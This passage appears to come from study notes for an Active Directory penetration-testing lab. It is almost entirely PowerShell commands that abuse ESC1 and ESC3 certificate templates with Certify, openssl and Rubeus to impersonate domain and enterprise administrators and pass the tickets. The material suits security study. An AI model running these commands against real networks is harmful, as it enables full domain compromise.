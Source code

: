 ```powershell
openssl\openssl.exe pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1-EA.pfx

# Request a TGT for the DA
Rubeus.exe asktgt /user:administrator /certificate:c:\ad\tools\esc1-EA.pfx /password:kali /ptt

# Request a TGT for the EA
Rubeus.exe asktgt /user:mcorp.local\administrator /dc:mcorp-dc.moneycorp.local /certificate:c:\ad\tools\esc1-EA.pfx /password:kali /ptt

# We can now access any recourse on the domain as DA/EA
```
{% endcode %}

Templates with EKU for Client Authentication and Certificate Request Agent policy (ESC3):

{% code overflow="wrap" %}
```powershell
# Enumerate ESC3-vulnerable templates
Certify.exe find /client authentication

# CSR
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users

# Convert PEM to PFX
openssl\openssl.exe pkcs12 -in esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out .\esc3-agent.pfx

# Request a certificate for
# DA
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3-agent.pfx /enrollcertpw:pass123!
# EA
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:mcorp\administrator /enrollcert:c:\ad\tools\esc3-EA.pfx /enrollcertpw:kali

# Convert PEM to PFX
# DA
openssl\openssl.exe pkcs12 -in esc3-DA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3-DA.pfx
# EA
openssl\openssl.exe pkcs12 -in esc3-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3-EA.pfx

# Request a TGT as 
# DA
Loader.exe -path Rubeus.exe -args asktgt /user:administrator /certificate:esc3-DA.pfx /password:pass123! /ptt
# EA
Loader.exe -path Rubeus.exe -args asktgt
/user:moneycorp.local\administrator /certificate:esc3-EA.pfx
/dc:mcorp-dc.moneycorp.local /password:kali /ptt

# Test access on the
# Child DC
winrs -r:dcorp-dc cmd /c set username
# Root DC
winrs -r:mcorp-dc cmd /c set username
```
{% endcode %}
{% endtab %}
{% endtabs %}
